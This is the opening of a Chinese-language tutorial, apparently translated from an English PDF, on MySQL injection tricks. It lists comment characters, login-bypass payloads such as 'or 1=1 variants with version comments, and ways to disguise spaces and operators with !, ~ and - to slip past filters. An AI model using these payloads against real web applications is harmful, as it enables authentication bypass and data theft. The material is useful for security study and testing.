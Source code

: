 # MySQL注入技巧

原文地址：http://websec.files.wordpress.com/2010/11/sqli2.pdf

0x00、介绍
=====

也可以参考瞌腄龙的mysql注入科普：http://drops.wooyun.org/tips/123

很多东西都是一样的，但是有一些小技巧确实很使用。

以下所有技巧都只在mysql适用，因为它太灵活了

0x01 MYSQl灵活的语法
=====

**1 MySQL语法以及认证绕过**

注释符：

```
#， 
-- X(X为任意字符)
/*(MySQL-5.1)
;%00
`
'or 1=1;%00
'or 1=1 union select 1,2`'
'or 1=1 #
'/*!50000or*/ 1=1 -- -      //版本号为5.1.38时只要小于50138
'/*!or*/ 1=1 -- -

```

前缀：

任意混合`+ - ~ !`

```
'or --+2=- -!!!'2

```

测试后发现`and/or`后面可以跟上偶数个`!、~`可以替代空格，也可以混合使用(混合后规律又不同)，and/or前的空格可以省略

```
'or- -!!!1=1；

```

运算符：

```
^, =, !=, %, /, *, &, &&, |, ||, <, >, <<, >>, >=, <=, <>, <=>, XOR,DIV, SOUNDS LIKE, RLIKE, REGEXP, IS, NOT, BETWEEN,……

'or 1 rlike '1

```
